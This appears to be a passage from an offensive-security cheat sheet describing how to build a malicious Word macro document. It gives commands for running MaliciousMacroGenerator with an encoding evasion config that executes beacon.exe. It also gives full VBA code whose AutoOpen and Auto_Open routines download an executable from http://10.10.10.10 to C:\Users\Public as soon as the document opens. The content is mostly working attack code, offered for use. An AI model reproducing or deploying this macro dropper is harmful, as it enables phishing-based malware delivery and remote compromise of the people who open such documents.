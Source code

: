 
### DOCM - MMG with Custom DL + Exec

1. Custom Download in first Macro to "C:\\Users\\Public\\beacon.exe"
2. Create a custom binary execute using MMG
3. Merge both Macro

```ps1
git clone https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator
python MMG.py configs/generic-cmd.json malicious.vba
{
	"description": "Generic command exec payload\nEvasion technique set to none",
	"template": "templates/payloads/generic-cmd-template.vba",
	"varcount": 152,
	"encodingoffset": 5,
	"chunksize": 180,
	"encodedvars": 	{},
	"vars": 	[],
	"evasion": 	["encoder"],
	"payload": "cmd.exe /c C:\\Users\\Public\\beacon.exe"
}
```

```vb
Private Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" (ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Public Function DownloadFileA(ByVal URL As String, ByVal DownloadPath As String) As Boolean
    On Error GoTo Failed
    DownloadFileA = False
    'As directory must exist, this is a check
    If CreateObject("Scripting.FileSystemObject").FolderExists(CreateObject("Scripting.FileSystemObject").GetParentFolderName(DownloadPath)) = False Then Exit Function
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, URL, DownloadPath, 0, 0)
    'If return value is 0 and the file exist, then it is considered as downloaded correctly
    DownloadFileA = (returnValue = 0) And (Len(Dir(DownloadPath)) > 0)
    Exit Function

Failed:
End Function

Sub AutoOpen()
    DownloadFileA "http://10.10.10.10/macro.exe", "C:\\Users\\Public\\beacon.exe"
End Sub


Sub Auto_Open()
    DownloadFileA "http://10.10.10.10/macro.exe", "C:\\Users\\Public\\beacon.exe"
End Sub
```
